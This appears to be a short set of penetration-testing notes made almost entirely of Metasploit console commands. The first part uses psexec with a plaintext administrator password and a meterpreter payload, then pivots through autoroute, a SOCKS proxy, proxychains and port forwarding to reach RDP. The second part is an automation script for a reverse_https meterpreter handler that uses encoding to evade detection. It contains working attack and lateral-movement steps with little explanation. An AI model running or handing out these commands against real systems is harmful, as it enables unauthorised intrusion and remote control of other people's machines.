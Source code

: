 ```
msf5 exploit(windows/smb/psexec_psh) > set SMBUser jeff_admin 
SMBUser => jeff_admin
msf5 exploit(windows/smb/psexec_psh) > set SMBPass Qwerty09! 
SMBPass => Qwerty09!
msf5 exploit(windows/smb/psexec_psh) > set RHOSTS 192.168.1.110 
RHOSTS => 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set payload windows/meterpreter/bind_tcp 
payload => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/psexec_psh) > set LHOST 192.168.1.110 
LHOST => 192.168.1.110
msf5 exploit(windows/smb/psexec_psh) > set LPORT 444 
LPORT => 444
msf5 exploit(windows/smb/psexec_psh) > exploit



msf5 exploit(multi/handler) > use multi/manage/autoroute 

msf5 post(multi/manage/autoroute) > show options

msf5 post(multi/manage/autoroute) > sessions -l

msf5 post(multi/manage/autoroute) > set session 4 
session => 4
msf5 post(multi/manage/autoroute) > exploit


msf5 post(multi/manage/autoroute) > use auxiliary/server/socks4a 
msf5 auxiliary(server/socks4a) > show options

msf5 auxiliary(server/socks4a) > set SRVHOST 127.0.0.1 
SRVHOST => 127.0.0.1
msf5 auxiliary(server/socks4a) > exploit -j


kali@kali:~$ sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf

kali@kali:~$ sudo echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf

portfwd -h 

portfwd add -l 3389 -p 3389 -r 192.168.1.110

rdesktop 127.0.0.1

```
##### Metasploit automation

setup.rc

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https 
set LHOST 192.168.119.175
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false 
exploit -j -z
 
```
